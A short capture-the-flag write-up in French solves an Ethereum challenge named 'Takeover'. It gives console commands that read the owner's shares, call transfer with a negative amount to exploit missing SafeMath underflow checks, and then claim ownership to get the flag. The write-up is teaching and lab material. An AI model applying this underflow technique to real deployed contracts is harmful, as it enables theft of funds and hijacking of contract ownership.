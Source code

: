 # Ethereum - Takeover

## 30 Points
### So much shares

## Énoncé
SafeMath is always a better idea !

## Solution

On va dans un premier temps récuppérer l'adresse de l'owner, dans l'objectif d'en apprendre un peu plus avec les autres fonctions/

```Bash
level.owner().then(console.log)
```

On obtient donc l'adresse de l'owner, on va donc voir ce qu'il possède dans shares:

```Bash
level.getShares('ownerAddress').then(console.log)
```

On donc essayer de transférer ce qu'il a sur son adresse, à notre adresse:

```Bash
level.transfer('ownerAddress', -70).then(console.log)
```

En suite on vérifie que le transfer a bien marché:
```Bash
level.getShares('ownerAddress').then(cosole.log)
```

Comme on a vu que l'on a plus de shares que le owner, on peut donc appeler la fonction claim et récupérer le pouvoir.

```Bash
level.claim().then(console.log)
```

Après tout cela on peut appuyer sur **next** et a voir le flag.